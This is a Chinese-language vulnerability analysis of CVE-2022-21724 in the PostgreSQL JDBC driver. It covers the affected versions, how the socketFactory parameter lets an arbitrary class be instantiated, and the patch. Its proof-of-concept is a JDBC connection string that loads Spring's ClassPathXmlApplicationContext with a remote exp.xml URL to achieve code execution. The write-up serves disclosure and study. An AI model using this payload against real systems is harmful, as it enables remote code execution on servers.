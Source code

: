 - [CVE-2022-21724 PostgreSQL 远程代码执行](#cve-2022-21724-postgresql-远程代码执行)
  - [影响版本](#影响版本)
  - [原理分析](#原理分析)
    - [ConnectionImpl](#connectionimpl)
    - [socketFactory](#socketfactory)
  - [POC](#poc)
  - [补丁](#补丁)
# CVE-2022-21724 PostgreSQL 远程代码执行
## 影响版本
>=9.4.1208&&<42.2.25||>=42.3.0&&<42.3.2
## 原理分析
### ConnectionImpl
在org/postgresql/Driver.java#connect中对JDBC字符串做解析处理,其中各个参数和对应的值都放入了Info属性中。
![](2.png)
在org/postgresql/core/v3/ConnectionFactoryImpl.java中为Connect工厂的实现,其中调用了`SocketFactoryFactory.getSocketFactory(info)`将Info属性传入来获取`SocketFactory`。
![](3.png)
### socketFactory 
根据官方文档 [参考](https://jdbc.postgresql.org/documentation/head/connect.html#connection-parameters)
在PostgreSQL连接时支持使用指定的类来建立Socket连接,该类必须继承`javax.net.SocketFactory`类,且该类需要有无参构造函数,接受String类型参数的构造函数或者接受一个Properties 作为参数的构造函数,Properties中包括了该类所需要的参数列表。  

![](1.png)
socketFactory：要使用的socketFactory类.
socketFactoryArg：socketFactory类的参数.

在`getSocketFactory`中,根据info中socketFactory的值来获取类名然后又调用`ObjectFactory`来生成对象。
![](4.png)
在`ObjectFactory`中则通过Class.forName获取到对应的Class和对应的构造器,然后调用构造器newInstance直接实例化了对象。
![](5.png)
整个过程并没有检验指定的socketFactory类是否继承了`javax.net.SocketFactory`并实现了相关接口，所以只要找一个可访问并带String参数构造器的类，其中构造器内执行了危险操作即可利用。
## POC
以org.springframework.context.support.ClassPathXmlApplicationContext类为例,其中构造函数支持从给定的xml地址加载Bean对象。

```java
        DriverManager.getConnection("jdbc:postgresql://127.0.0.1/test?user=test&password=123456&socketFactory=org.springframework.context.support.ClassPathXmlApplicationContext&socketFactoryArg=http://127.0.0.1:8082/exp.xml");
```
![](6.png)
## 补丁
在调用`ObjectFactory`时传入SocketFactory类,在`ObjectFactory`中检验了继承关系。
![](7.png)
![](8.png)